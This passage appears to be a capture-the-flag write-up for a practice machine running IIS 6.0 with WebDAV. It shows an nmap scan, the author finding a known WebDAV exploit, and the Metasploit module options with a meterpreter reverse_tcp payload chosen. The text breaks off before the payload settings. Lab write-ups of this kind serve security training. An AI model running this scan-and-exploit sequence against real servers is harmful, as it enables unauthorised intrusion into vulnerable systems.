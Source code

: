 #### Machine release date: April 12, 2017

## Active Ports

```bash
sudo nmap -p80 -sC -sV -oA nmap/full-tcp-version 10.10.10.14
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 12:22 EDT
Nmap scan report for 10.10.10.14
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Thu, 03 Sep 2020 16:24:53 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Vulnerability Discovery

As seen in the nmap scan above, `Microsoft IIS httpd 6.0` is extremely outdated, so I went ahead and googled for some known exploits against it.
It turns out that [some research](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl) showed that the vulnerability disclosure date was shortly after this box was released.

The link above also let me know that there was a metasploit exploit module, so I figured I would give it a shot. 

## Exploitation

```
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         10.10.10.14      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

```